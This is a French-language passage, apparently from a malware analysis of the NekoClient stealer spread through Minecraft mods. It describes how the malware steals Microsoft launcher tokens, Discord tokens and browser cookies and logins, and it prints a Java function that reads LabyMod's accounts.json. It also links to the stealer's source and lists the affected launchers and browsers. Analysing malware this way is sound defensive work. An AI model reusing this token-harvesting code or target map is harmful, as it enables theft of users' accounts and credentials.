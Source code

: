 ### Vol de données

**Tokens MS (microsoft)**: Puisque ce malware vise les mods Minecraft, il est naturel pour lui d'essayer de voler les tokens de connexion aux comptes MS utilisés pour se connecter a Minecraft. Cerrtains launchers gardent cette donée en sécuritée dans un fichier local, dans lequel le malware vas tenter d'y lire son contenu. Cela affecte une variétée de launchers tel que :

* Le launcher Vanilla/Mojang
* Le launcher legacy Vanilla/Mojang
* PolyMC / Prism
* Technic
* Feather
* LabyMOd (< v3.9.59)
* Et tout les tokens trouvable dans le [Windows Credential Manager](https://support.microsoft.com/en-us/windows/accessing-credential-manager-1b5c916a-6a16-889f-8581-fc16e8165ac0)

La logique de retrait (vue dans [`dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java)) est similaire a celle ci car les donés sont stoqués d'une manière similaire. Par exemple voicit le code pour laby-mod:
```java
private static void retrieveRefreshTokensFromLabyMod(List<RefreshToken> refreshTokens) throws IOException {
	String appdata = System.getenv("APPDATA");
	if (Platform.isWindows() || Objects.isNull(appdata)) {
		Path path = appdata == null ? null : Paths.get(appdata, ".minecraft", "LabyMod", "accounts.json");
		if (Files.isReadable(path)) {
			extractRefreshTokensFromLabyModLauncher(refreshTokens, Json.parse(Files.readString(path)).asObject());
		}
	}
}
```
le code pour récupérer les tokens depuis Feather/PolyMC/Prism est essentiellement identique.

La différence dans la stratégie pour le launcher vanilla est que le fichier Json a une couche additionelle de cryptographie la protégeant.

La différence dans la stratégie pour technic est que technic stoque les tokens en utilisant un objet java buit-in, entourant `com.google.api.client.auth.oauth2.StoredCredential`.

**Tokens Discord**: Tout le monde a vus un voler de token avant. Ca vole le token et d'autres informations tel que les méthodes de payement, numéro de telephone lié, etc. Afecte les clients standart,canary,ptb et lightcord. Source: [`dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java`](https://github.com/clrxbl/NekoClient/blob/fd76c5f9d40d1e10de11f00a6b4e0cca3d6221a3/dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java)

**Cooies & informations sauvegardées**: Vole les cookies et les informations de connection sauvegardés dans les navigateurs web afectés. Source : [`dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java)

- Mozilla Firefox
    - Waterfox
    - Pale Moon
    - SeaMonkey
- Chrome
    - Edge
    - Brave
    - Vivaldi
    - Yandex
    - Slimjet
    - CentBrowser
    - Comodo
    - Iridium
    - UCBrowser